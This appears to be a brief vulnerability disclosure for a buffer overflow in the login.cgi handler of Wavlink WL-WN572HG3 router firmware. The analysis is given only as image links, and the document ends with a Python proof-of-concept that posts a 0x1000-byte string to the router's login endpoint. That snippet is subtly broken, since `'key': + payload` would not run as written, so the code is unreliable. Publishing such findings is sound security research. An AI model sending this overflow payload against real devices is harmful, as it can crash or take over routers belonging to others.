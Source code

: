 # buff overflow

## WAVLINK_WL_WN572HG3

version: 20220801

## Description:

There is a buff overflow in login.cgi/sys_login

## Source:

you may download it from : 

https://www.wavlink.com/en_us/firmware/details/1f4fea6a58.html##

 Analyse:

![](2.png)

get value from key

![](3.png)

then call strcpy, cause buff overflow

## POC

```
url = "http://192.168.0.1/cgi-bin/login.cgi"
payload = 'a'*0x1000 + '\n'

r = requests.post(url, data={ 'page':'login', 'key': + payload})
```
